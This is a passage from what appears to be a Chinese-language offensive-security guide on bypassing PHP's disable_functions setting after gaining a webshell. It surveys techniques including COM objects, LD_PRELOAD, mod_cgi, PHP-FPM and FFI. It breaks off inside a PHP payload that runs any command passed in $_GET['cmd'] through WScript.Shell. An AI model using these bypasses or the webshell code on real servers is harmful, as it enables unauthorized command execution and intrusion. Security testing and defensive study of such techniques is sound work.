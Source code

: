 # PHP `disable_functions` 绕过技术

## 概述 (Overview)

PHP 的 `php.ini` 配置文件中的 `disable_functions` 指令允许管理员禁止在 PHP 环境中使用某些特定的内置函数，通常是为了提高安全性，禁用诸如 `system()`, `exec()`, `shell_exec()`, `passthru()` 等可能执行操作系统命令的危险函数。绕过 `disable_functions` 的目标通常是在这种受限环境下找到替代方法来执行系统命令。`phpinfo()` 函数通常不会被禁用，是探测目标环境（如 PHP 版本、已加载扩展、`disable_functions` 具体列表等）的重要手段。

## 识别特征 / 使用场景 (Identification / Use Cases)

*   **识别:**
    *   获取 WebShell 后，尝试执行 `whoami`, `ls` 等命令失败，提示函数被禁用。
    *   通过 `phpinfo()` 输出查看到 `disable_functions` 指令及其列出的被禁函数。
*   **使用场景:**
    *   在已获得 WebShell 但无法直接执行系统命令的 PHP 环境中提升权限或执行进一步操作。
    *   适用于满足特定绕过技术条件的 Linux 或 Windows 服务器环境。

## 核心原理 (Core Principles - General)

绕过 `disable_functions` 的核心思路是寻找 PHP 与操作系统交互的替代途径，常见的原理包括：

1.  **利用未被禁用的、可执行命令或加载代码的函数/特性:** 如 Windows 下的 `COM` 对象。
2.  **利用环境变量和子进程:** 通过设置特殊环境变量（如 `LD_PRELOAD`, `GCONV_PATH`）并触发能创建子进程的函数（如 `mail()`, `error_log()`），使得子进程加载恶意代码。
3.  **利用 Web 服务器特定模块:** 如 Apache 的 `mod_cgi`，通过配置文件修改文件处理方式。
4.  **攻击 PHP-FPM 进程:** 如果能与 PHP-FPM 进程通信（通常监听 9000 端口），可以构造 FastCGI 请求来控制 PHP 配置项并执行代码。
5.  **利用 PHP 自身漏洞 (内存破坏):** 如特定版本存在的 UAF (Use-After-Free) 漏洞，通过精心构造的数据触发漏洞，最终劫持执行流程以调用 `system()` 等函数。
6.  **利用 PHP 新特性/扩展:** 如 PHP 7.4 引入的 FFI (Foreign Function Interface) 扩展。

---

## 常见绕过技术 (Common Bypass Techniques)

### 1. Windows COM 对象

*   **概述 (Overview):** 在 Windows 环境下，如果 PHP 加载了 `php_com_dotnet.dll` 扩展且允许 DCOM (`com.allow_dcom=true`)，可以通过 `COM` 对象调用系统组件（如 `WScript.shell`）来执行命令。
*   **工作原理 (Working Principle):** PHP 的 `COM` 类允许实例化和调用 COM 对象。`WScript.Shell` 对象提供了 `Exec` 方法，可以启动外部程序并获取其输出。
*   **利用条件 (Exploitation Conditions):**
    *   Windows 操作系统。
    *   PHP 开启 `php_com_dotnet.dll` 扩展。
    *   `phpinfo()` 中 `com.allow_dcom` 为 `On`。
    *   `COM` 类未被禁用。
*   **利用步骤 / 示例 Payload (Exploitation Steps / Example Payload):**
    ```php
    <?php
    // 检查 COM 是否可用
    if (extension_loaded('com_dotnet')) {
        try {
            $command = $_GET['cmd'];
            // 创建 WScript.Shell COM 对象
            $wsh = new COM('WScript.shell'); 
            // 执行命令 (Shell.Application 对象的 ShellExecute 方法也可以)
            $exec = $wsh->exec("cmd /c " . $command); 
            // 获取标准输出
            $stdout = $exec->StdOut();
            $stroutput = $stdout->ReadAll();
            echo "<pre>" . htmlspecialchars($stroutput) . "</pre>";
        } catch (Exception $e) {
            echo "COM Error: " . $e->getMessage();
